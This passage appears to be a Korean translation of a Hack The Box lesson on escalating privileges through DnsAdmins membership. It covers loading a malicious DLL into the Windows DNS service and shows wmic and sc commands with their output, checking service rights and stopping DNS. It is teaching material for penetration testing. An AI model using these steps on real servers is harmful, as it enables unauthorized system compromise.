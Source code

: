 참고: 사용자 지정 DLL의 전체 경로를 지정해야 하며, 그렇지 않으면 공격이 제대로 작동하지 않습니다.

레지스트리 키에 대한 직접적인 권한이 없으므로 `DnsAdmins` 그룹의 구성원만 `dnscmd` 유틸리티를 사용할 수 있습니다.

악성 플러그인의 경로가 포함된 레지스트리 설정이 구성되고 페이로드가 생성되면 다음에 DNS 서비스가 시작될 때 DLL이 로드됩니다. DnsAdmins 그룹의 구성원이라고 해서 DNS 서비스를 다시 시작할 수 있는 권한은 없지만, 시스템 관리자가 DNS 관리자에게 이 작업을 허용할 수 있습니다.

DNS 서비스를 다시 시작한 후(사용자에게 이 수준의 액세스 권한이 있는 경우) 사용자 지정 DLL을 실행하고 사용자를 추가하거나(우리의 경우) 리버스 셸을 가져올 수 있어야 합니다. DNS 서버를 다시 시작할 수 있는 액세스 권한이 없는 경우 서버 또는 서비스가 다시 시작될 때까지 기다려야 합니다. DNS 서비스에 대한 현재 사용자의 권한을 확인해 보겠습니다.

**사용자 SID 찾기**

먼저 사용자의 SID가 필요합니다.

&#x20; 사용자 SID 찾기

```
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

**DNS 서비스에 대한 권한 확인**

사용자의 SID를 알면 `sc` 명령을 사용하여 서비스에 대한 권한을 확인할 수 있습니다. 이 [문서에](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/) 따르면 사용자에게 각각 `SERVICE_START` 및 `SERVICE_STOP으로` 변환되는 `RPWP` 권한이 있음을 알 수 있습니다.

&#x20; DNS 서비스에 대한 권한 확인

```
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

Windows의 SDDL 구문에 대한 설명은 `Windows 기초` 모듈을 참조하세요.

**DNS 서비스 중지**

이러한 권한을 확인한 후 다음 명령을 실행하여 서비스를 중지하고 시작할 수 있습니다.

&#x20; DNS 서비스 중지

```
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```
